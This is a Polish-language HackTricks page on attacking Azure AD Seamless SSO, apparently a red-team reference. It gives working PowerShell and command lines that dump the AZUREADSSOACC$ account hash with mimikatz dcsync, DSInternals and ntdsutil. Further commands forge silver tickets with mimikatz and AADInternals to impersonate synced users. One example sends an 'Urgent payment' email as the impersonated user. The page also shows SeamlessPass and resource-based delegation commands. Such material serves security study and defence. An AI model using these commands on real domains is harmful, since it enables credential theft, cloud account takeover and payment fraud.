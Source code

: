 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatycznie **loguje użytkowników, gdy są na swoich urządzeniach firmowych** podłączonych do sieci firmowej. Po włączeniu, **użytkownicy nie muszą wpisywać swoich haseł, aby zalogować się do Azure AD**, a zazwyczaj nawet wpisywać swoich nazw użytkowników. Ta funkcja zapewnia użytkownikom łatwy dostęp do aplikacji w chmurze bez potrzeby posiadania dodatkowych komponentów lokalnych.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Zasadniczo Azure AD Seamless SSO **loguje użytkowników** gdy są **na komputerze dołączonym do lokalnej domeny**.

Jest wspierane zarówno przez [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) jak i [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

SSO na komputerach stacjonarnych używa **Kerberos** do uwierzytelniania. Po skonfigurowaniu, Azure AD Connect tworzy **konto komputera o nazwie AZUREADSSOACC`$`** w lokalnym AD. Hasło konta `AZUREADSSOACC$` jest **wysyłane w postaci niezaszyfrowanej do Azure AD** podczas konfiguracji.

**Bilety Kerberos** są **szyfrowane** przy użyciu **NTHash (MD4)** hasła, a Azure AD używa wysłanego hasła do odszyfrowania biletów.

**Azure AD** udostępnia **punkt końcowy** (https://autologon.microsoftazuread-sso.com), który akceptuje bilety Kerberos. Przeglądarka maszyny dołączonej do domeny przesyła bilety do tego punktu końcowego w celu SSO.

### On-prem -> cloud

**Hasło** użytkownika **`AZUREADSSOACC$` nigdy się nie zmienia**. Dlatego administrator domeny mógłby skompromitować **hash tego konta**, a następnie użyć go do **tworzenia srebrnych biletów** do połączenia się z Azure z **dowolnym użytkownikiem lokalnym zsynchronizowanym**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Z hashem możesz teraz **generować srebrne bilety**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Aby wykorzystać srebrny bilet, należy wykonać następujące kroki:

1. **Uruchom przeglądarkę:** Należy uruchomić Mozilla Firefox.
2. **Skonfiguruj przeglądarkę:**
* Przejdź do **`about:config`**.
* Ustaw preferencję dla [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na określone [wartości](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Uzyskaj dostęp do aplikacji internetowej:**
* Odwiedź aplikację internetową, która jest zintegrowana z domeną AAD organizacji. Typowym przykładem jest [Office 365](https://portal.office.com/).
4. **Proces uwierzytelniania:**
* Na ekranie logowania należy wpisać nazwę użytkownika, pozostawiając pole hasła puste.
* Aby kontynuować, naciśnij TAB lub ENTER.

{% hint style="success" %}
To nie omija MFA, jeśli jest włączone
{% endhint %}

#### Opcja 2 bez dcsync - SeamlessPass

Możliwe jest również przeprowadzenie tego ataku **bez ataku dcsync**, aby być bardziej dyskretnym, jak [wyjaśniono w tym wpisie na blogu](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). W tym celu potrzebujesz tylko jednego z poniższych:

* **TGT skompromitowanego użytkownika:** Nawet jeśli go nie masz, ale użytkownik został skompromitowany, możesz go uzyskać, używając sztuczki z delegowaniem fałszywego TGT, zaimplementowanej w wielu narzędziach, takich jak [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) i [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Złoty bilet**: Jeśli masz klucz KRBTGT, możesz stworzyć TGT, którego potrzebujesz dla zaatakowanego użytkownika.
* **Hash NTLM lub klucz AES skompromitowanego użytkownika:** SeamlessPass skomunikuje się z kontrolerem domeny z tymi informacjami, aby wygenerować TGT.
* **Hash NTLM lub klucz AES konta AZUREADSSOACC$:** Z tymi informacjami i identyfikatorem zabezpieczeń (SID) użytkownika, którego chcesz zaatakować, możliwe jest stworzenie biletu usługi i uwierzytelnienie w chmurze (jak wykonano w poprzedniej metodzie).

Na koniec, z TGT możliwe jest użycie narzędzia [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) z:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Dalsze informacje na temat ustawienia Firefoksa do pracy z seamless SSO można [**znaleźć w tym wpisie na blogu**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Tworzenie biletów Kerberos dla użytkowników tylko w chmurze~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Jeśli administratorzy Active Directory mają dostęp do Azure AD Connect, mogą **ustawić SID dla dowolnego użytkownika chmurowego**. W ten sposób bilety Kerberos **mogą być tworzone również dla użytkowników tylko w chmurze**. Jedynym wymaganiem jest, aby SID był odpowiednim [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Zmiana SID użytkowników administracyjnych tylko w chmurze jest teraz **zablokowana przez Microsoft**.\
Aby uzyskać więcej informacji, sprawdź [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### On-prem -> Chmura za pomocą ograniczonej delegacji opartej na zasobach <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Każdy, kto może zarządzać kontami komputerów (`AZUREADSSOACC$`) w kontenerze lub OU, w którym znajduje się to konto, może **skonfigurować ograniczoną delegację opartą na zasobach dla tego konta i uzyskać do niego dostęp**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Jestem w twojej chmurze, czytam e-maile wszystkich - hakowanie Azure AD przez Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

